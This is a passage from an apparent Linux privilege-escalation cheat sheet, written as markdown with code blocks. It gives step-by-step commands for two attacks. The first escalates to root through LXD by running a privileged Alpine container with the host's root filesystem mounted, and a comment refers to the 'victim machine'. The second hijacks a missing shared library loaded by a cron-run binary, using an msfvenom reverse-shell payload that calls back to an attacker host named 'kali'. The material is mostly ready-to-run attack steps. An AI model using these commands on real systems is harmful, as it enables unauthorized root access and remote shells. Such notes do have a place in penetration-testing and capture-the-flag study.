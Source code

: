 ```
```
> **Error: No storage pool found. Please create a new storage pool**
> run **lxc init**, repeat create step

* method 2
Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686

# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
 
# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

## Lib hijack
+ writable to lib path, exploit with cronjob/script/suid and so on. pg-sybaris

```bash
# check cronjob, will contains lib path;
cat /etc/crontab

# check lib path permission.
# check the list of shared object loaded by command
ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007ffd61a5c000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f717136a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7171738000)

# generate so and exploit
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali LPORT=6379
cp /var/ftp/pub/utils.so /usr/local/lib/dev/utils.so
```
